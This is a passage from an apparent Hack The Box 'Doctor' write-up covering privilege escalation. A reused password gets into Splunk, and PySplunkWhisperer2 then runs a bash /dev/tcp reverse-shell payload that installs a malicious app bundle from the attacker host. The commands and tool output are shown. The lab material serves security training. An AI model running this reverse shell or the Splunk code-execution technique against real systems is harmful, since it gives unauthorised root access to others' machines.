



# 15 - PrivEsc


# Password



It doesn't belong to any ssh users. However, it is still a password let's try it on Splunk(8089)

# Splunk


We are successfully logged in. Splunkd is running as root


# Code execution
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/doctor/SplunkWhisperer2/PySplunkWhisperer2]
└──╼ $ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --lhost 10.10.14.14 --lport 4444 --username  shaun --password Guitar123 --payload 'bash -c "bash -i >& /dev/tcp/10.10.14.14/4445 0>&1"'
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpa7ao_pom.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.14:4444/
10.10.10.209 - - [20/Aug/2021 13:36:48] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

```


# Shell

